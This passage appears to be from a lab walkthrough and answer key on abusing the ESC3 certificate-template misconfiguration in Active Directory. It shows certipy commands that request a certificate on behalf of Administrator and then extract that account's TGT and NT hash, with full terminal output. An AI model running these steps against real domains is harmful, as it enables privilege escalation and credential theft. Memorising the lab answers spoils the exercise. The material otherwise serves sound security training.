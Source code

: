 Answer: `S-1-5-21-2570265163-3918697770-3667495639-2602`

## ESC3

### Question 2

#### "Abuse the ESC3 misconfiguration to impersonate the Administrator account. What is the value of the flag file at C:\Users\haris\Desktop\flag.txt?"

To abuse `ESC3` and impersonate the `Administrator` account, students need to use the `req` command of `certipy`, specifying the previously attained `PFX` certificate belonging to `blwasp` for the `-pfx` option , the `User` template for the `-template` option, and `Administrator` for the `-on-behalf-of` option; students will attain a `PFX` certificate for the `Administrator` user:

Code: shell

```shell
certipy req -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -template User -on-behalf-of Administrator -pfx blwasp.pfx
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ certipy req -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -template User -on-behalf-of Administrator -pfx blwasp.pfx

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 69
[*] Got certificate with UPN 'Administrator@lab.local'
[*] Certificate object SID is 'S-1-5-21-2570265163-3918697770-3667495639-500'
[*] Saved certificate and private key to 'administrator.pfx'
```

Utilizing the certificate, students need to use the `auth` command of `certipy` to request a TGT for `Administrator` and `Un-PAC-the-hash` within it; students will attain the NT hash `2b576acbe6bcfda7294d6bd18041b8fe`:

Code: shell

```shell
certipy auth -pfx administrator.pfx -domain lab.local
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ certipy auth -pfx administrator.pfx -domain lab.local

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@lab.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@lab.local': aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe
```
